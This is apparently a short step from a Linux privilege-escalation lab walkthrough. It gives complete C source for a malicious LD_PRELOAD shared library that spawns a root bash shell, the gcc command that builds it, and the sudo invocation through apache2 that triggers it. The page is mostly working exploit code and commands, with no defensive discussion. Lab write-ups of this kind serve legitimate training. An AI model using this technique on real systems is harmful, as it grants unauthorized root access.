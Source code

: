 
1. Open a text editor and type: 

**Exploit Code**

```C++
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

2. Save the file as x.c
3. In command prompt type:
`gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
4. In command prompt type:
`sudo LD_PRELOAD=/tmp/x.so apache2`
5. In command prompt type: `id`

![LD-PRELOAD](/Images/linux_privesc_arena/ld-preload.png)

